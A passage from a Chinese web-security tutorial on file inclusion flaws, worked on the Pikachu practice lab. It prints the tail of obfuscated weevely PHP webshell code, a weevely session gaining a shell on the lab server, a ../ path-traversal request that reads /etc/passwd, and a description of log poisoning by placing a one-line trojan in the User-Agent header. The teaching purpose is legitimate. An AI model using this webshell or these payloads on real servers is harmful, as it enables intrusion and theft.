 $m=<span class="hljs-string">'nc^!tio^!n x($t^!,$k^!)^!{$c=strlen($k)^!;$l=strlen(^!$t);$o=^!"";f^!^!or($i=^!0;$^!i&lt;$l;^!){for($j'</span>;
$h=<span class="hljs-string">'^!n^!d_clean();^!$^!r=@ba^!s^!e64^!_encode(@x(@gzcompre^!ss^!($o),^!$k));prin^!^!t("$p$kh$r$kf");}'</span>;
$E=str_replace(<span class="hljs-string">'^!'</span>,<span class="hljs-string">''</span>,$p.$m.$x.$S.$Y.$h);
$o=$k(<span class="hljs-string">''</span>,$E);$o();
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="16665">但是工具一旦出名后，就容易被查杀，需要自己去做一些去特征化的免杀的处理，这不在本课程的讨论范围，有兴趣的话，你可以网上搜索关于木马免杀的文章。</p>
<p data-nodeid="16666">之后 weevely.py 客户端直接连接就可以获得服务器的 shell 权限。</p>
<pre class="lang-shell" data-nodeid="16667"><code data-language="shell"><span class="hljs-meta">$</span><span class="bash"> python3 weevely.py http://127.0.0.1:8080/shell.php <span class="hljs-built_in">test</span></span>
[+] weevely 4.0.1
[+] Target:	www-data@7286434c6e88:/app
[+] Session:	/home/admin/.weevely/sessions/127.0.0.1/shell_1.session
[+] Shell:	System shell
[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.
<span class="hljs-meta">weevely&gt;</span><span class="bash"> ls</span>
a.php
assets
Dockerfile
footer.php
header.php
inc
index.php
install.php
LICENSE
pkxss
README.md
shell.php
shell.txt
test
vul
wiki
www-data@7286434c6e88:/app $ id
uid=1000(www-data) gid=50(staff) groups=50(staff)
</code></pre>
<h3 data-nodeid="16668">本地文件包含</h3>
<p data-nodeid="16669">如果加载的包含文件不允许从外部服务器获取，只能加载本地文件，那么这就属于本地文件包含。正常情况下，本地文件并不会包含一句话木马等恶意文件（需要使用其他更高级的利用技巧，具体见下文），但有时可以用来读取服务器的敏感文件，如果对方有回显的话。</p>
<p data-nodeid="16670">比如 Pikachu 靶场的“File Inclusion(local)”题目，我们可以尝试读取 /etc/passwd 文件，构造如下请求：</p>
<pre class="lang-java" data-nodeid="16671"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1:8080/vul/fileinclude/fi_local.php?filename=../../../../../../../../etc/passwd&amp;submit=%E6%8F%90%E4%BA%A4</span>
</code></pre>
<p data-nodeid="16672">成功读取到 /etc/passwd 文件。</p>
<p data-nodeid="16673"><img src="https://s0.lgstatic.com/i/image2/M01/0C/3C/Cip5yGAX4EmATdfwAAIXYjl0obE125.png" alt="图片4.png" data-nodeid="16836"></p>
<div data-nodeid="16674"><p style="text-align:center">图 4  利用漏洞读取 /etc/passwd 文件</p></div>
<h3 data-nodeid="16675">漏洞利用技巧</h3>
<p data-nodeid="16676">随着PHP 5.2 之后默认关闭 allow_url_include 配置，也降低了远程文件包含漏洞的出现。但是本地文件包含漏洞的利用方式，很多也适用于远程文件包含漏洞，下面会介绍一些相对通用的利用技巧。</p>
<p data-nodeid="16677">此处漏洞利用的目标仍然是为了获取服务器的 shell 权限，就需要设法在服务器上写入文件，内容自然是一句话等恶意代码内容。但是，我们手上又没有写任意文件的漏洞可利用，只能看看服务器上哪些文件会写入外部用户可控数据，或者其他可执行 PHP 代码的方式。</p>
<p data-nodeid="16678">总结起来，主要有下面几种利用方式。</p>
<h4 data-nodeid="16679">1.写日志文件</h4>
<p data-nodeid="16680">如果服务器开启访问日志记录的话，那么用户的请求数据就会被记录在日志文件，若我们在地址上包含一句话木马的话，也同样会被记录进去。如果将一句话写在 URL 中常常会被 URL 编码存储，因此需要写 User-Agent 中，其他 HTTP 头默认不会被记录：</p>
<p data-nodeid="16681"><img src="https://s0.lgstatic.com/i/image/M00/94/45/Ciqc1GAX4FmADM5PAASEhBTUaiw277.png" alt="图片5.png" data-nodeid="16849"></p>
<div data-nodeid="16682"><p style="text-align:center">图 5  注入一句话木马的访问日志</p></div>